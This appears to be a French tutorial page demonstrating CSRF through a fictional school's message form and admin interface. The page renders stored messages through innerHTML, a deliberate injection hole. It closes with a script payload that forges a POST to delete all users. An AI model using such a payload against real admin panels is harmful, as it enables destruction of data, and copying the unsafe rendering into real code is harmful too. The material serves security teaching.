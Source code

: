 

<script>
		var fonction_csrf = function () {		
			myTxt = document.getElementById("scriptEvil_csrf").value;
			window.localStorage.setItem('message_csrf', myTxt);
		}
</script>

>#### École municipale de Kelkepare
>**Envoyez un message à l'admin**
>
>Votre message : <input id="scriptEvil_csrf" type="text" /> <button onClick="fonction_csrf()">Envoyez !</button>
>
>-------
>
> (https://admin-message.kelkepare.com)
>#### Interface Admin
>**Vos messages :**
><ul id="myUl_csrf">
></ul>
>
>
>--------
>
> (https://admin-base.kelkepare.com)
>#### Interface admin bis
>
><form>
><select><option>ajouter</option><option>supprimer</option></select>
><select><option>eleve</option><option>allUsers</option></select>
><button type="submit" formtarget="_blank">Je sais ce que je fais</button>
></form>
>
>

<script>
    myUl = document.getElementById("myUl_csrf");
    var node = document.createElement("LI");
		node.innerHTML = window.localStorage.getItem('message_csrf');
		myUl.appendChild(node);
</script>

Si on envoie le message suivant ?
```
<script>
var request = new XMLHttpRequest();
request.open('POST', 'https://admin-base.kelkepare.com/cible-du-form', false);
resquest.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------395028195436618018493550684239");
request.send("-----------------------------395028195436618018493550684239\n"+
"Content-Disposition: form-data; name='action'\n"+
"\n"+
"supprimer\n"+
"-----------------------------395028195436618018493550684239\n"+
"Content-Disposition: form-data; name='quoi'\n"+
"\n"+
"allUsers\n"+
"-----------------------------395028195436618018493550684239--"
);
</script>
```
